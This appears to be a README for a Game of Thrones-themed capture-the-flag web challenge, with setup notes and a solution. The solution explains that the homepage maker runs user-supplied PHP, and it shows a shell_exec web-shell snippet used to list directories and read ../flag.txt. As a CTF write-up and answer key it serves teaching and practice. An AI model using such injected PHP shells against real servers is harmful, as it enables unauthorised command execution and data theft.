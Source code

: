 # Personalized Homepage

Samwell Tarly is helping people set up their homepages so that they
can increase their popularity and attract more people to fight against
the night king.

To do that, he has set up a Homepage Maker. Bran saw Samwell hiding something
in a file called flag.txt in his visions. Help Bran locate that file.

# Running Instructions

The directory structure should be maintained, with `webroot` being the php
root folder, and flag.txt being in the directory above it.

# Solution

This question allows you to create a `homepage.php` file on your own,
which is populated with the contents of whatever you put in the text box
in the index page.

You can also php code in it and it will run.

```
<?php
        echo shell_exec("command");
?>
```

Replace command with `ls` or `cat flag.txt`, to obtain a cryptic hint, which
will lead you to execute `ls ..` and `cat ../flag.txt`. This is the flag.